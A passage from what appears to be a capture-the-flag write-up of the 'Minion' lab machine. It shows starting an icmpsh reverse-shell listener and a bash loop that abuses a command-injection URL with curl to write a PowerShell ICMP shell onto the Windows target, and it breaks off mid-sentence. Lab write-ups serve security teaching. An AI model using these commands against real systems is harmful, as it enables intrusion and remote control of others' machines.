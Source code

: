 This tells us we have remote code execution.

### Minion Remote Exploit

Try writing files to different directories while watching the Error Code (0=Success
	1=Failure) to see where writing is possible:

![](images/Emulating%20Threat%20Methodologies%202/image059.png)<br><br>

After experimenting with commands, you'll find that only ICMP is allowed out
from the victim machine.  This presents the opportunity to use an ICMP shell
with `icmpsh_m.py`:

```bash
# Disable ping replies
sysctl -w net.ipv4.icmp_echo_ignore_all=1

# Copy over and start ICMP shell server
cp /usr/share/sqlmap/extra/icmpsh/icmpsh_m.py .
python icmpsh_m.py <attacker ip> <victim ip>
```

<br>

So we have the ICMP Shell server listening, now we need to write an ICMP shell
client to the victim host and execute it.

The quickest way to do this is to write it line by line using the following
bash script:

```bash
#!/bin/bash
export IFS=$'\n'
for line in $(icmp.txt);do
	data="echo ${line} >> C:\Windows\Temp\c.ps1"
	curl -v -G -X GET 'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx' --data-urlencode "xcmd=$data"
done
```

The `icmp.txt` file is a condensed copy of [Invoke-PowerShellIcmp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1)
with the attacking machine's address added:
